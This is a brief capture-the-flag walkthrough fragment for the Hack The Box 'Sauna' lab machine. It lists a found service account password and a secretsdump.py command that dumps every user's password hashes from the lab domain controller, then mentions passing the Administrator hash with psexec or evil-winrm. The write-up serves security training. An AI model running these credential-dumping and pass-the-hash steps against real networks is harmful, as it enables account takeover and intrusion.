


secretsdump.py
using our newfound creds thanks to winPEASsvc_loanmgr
Moneymakestheworldgoround!
secretsdump.py egotistical-bank.local/svc_loanmgr@10.10.10.175

Moneymakestheworldgoround!

sercrets.py dumped all the password hashes of every user on the Sauna Box!, from here we can use psexec or evil-winrm to pass the Administrator's hash and log in